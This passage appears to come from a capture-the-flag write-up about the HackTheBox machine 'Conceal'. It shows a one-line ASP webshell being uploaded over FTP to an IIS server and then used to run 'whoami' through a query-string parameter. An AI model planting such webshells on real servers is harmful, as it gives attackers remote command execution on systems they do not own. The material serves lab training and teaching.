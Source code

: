 ### Find Language / Webshell

A webserver can be configured to handle different kinds of scripts. Some
will run php, others asp, or aspx. Often I can see something in the HTTP
response headers that will give me a clue. In this case, I don't see
anything that will help:



    HTTP/1.1 200 OK
    Content-Type: text.md
    Last-Modified: Fri, 12 Oct 2018 22:10:28 GMT
    Accept-Ranges: bytes
    ETag: "abe052627862d41:0"
    Server: Microsoft-IIS/10.0
    Date: Mon, 13 May 2019 06:36:04 GMT
    Connection: close
    Content-Length: 696



I'll try a few shells and see what happens. If I try to upload a php or
aspx shell, I get this error on visiting the page:

![](/img/1547476784114.png)

But if I upload a simple asp shell, it works:



    root@kali# cat /opt/shells/asp/cmd.asp 
    <%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>





    ftp> put /opt/shells/asp/cmd.asp 0xdf.asp
    local: /opt/shells/asp/cmd.asp remote: 0xdf.asp
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    100 bytes sent in 0.00 secs (5.6098 MB/s)





    root@kali# curl http://10.10.10.116/upload/0xdf.asp?cmd=whoami
    conceal\destitute


